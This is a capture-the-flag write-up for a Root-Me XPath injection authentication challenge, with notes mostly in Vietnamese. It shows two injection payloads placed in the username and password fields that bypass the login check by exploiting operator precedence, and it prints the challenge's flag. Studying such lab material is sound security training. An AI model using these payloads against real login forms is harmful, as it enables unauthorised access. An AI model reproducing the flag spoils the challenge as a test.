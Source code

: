 # [XPath injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Authentication)

## Solutions

Nếu XPATH có dạng `"//user[user='' and pass='']";`, test:

- `username=' or ''='&password=' or ''='`:
  - => `"//user[user='' or ''='' and pass='' or ''='']";`
  - vào được với node user đầu tiên trong xml

- `username=John' or '1'='2&password=a`:
  - => `"//user[user='John' or '1'='2' and pass='a']";`
  - and trước or sau nên chỉ cần user có tồn tại là ok
  - vào được với node user John

Flag: `6FkC67ui8njEepIK5Gr2Kwe`

## New Knowledge

`and` has higher priority than `or`

## References

- <https://www.php.net/manual/en/language.operators.precedence.php>
- <https://www.w3schools.com/xml/xpath_intro.asp>
